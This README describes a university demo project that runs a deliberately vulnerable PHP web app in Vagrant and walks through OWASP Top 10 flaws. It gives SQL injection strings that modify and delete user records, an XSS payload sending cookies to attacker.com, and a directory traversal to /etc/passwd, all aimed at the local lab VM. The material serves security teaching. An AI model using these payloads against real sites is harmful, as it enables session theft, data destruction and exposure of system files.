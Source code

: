 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * try this: http://192.168.33.10/zcu/list/get_file.php?file=../index.php
  * or this: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module[FAILED] (+ other errors)
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
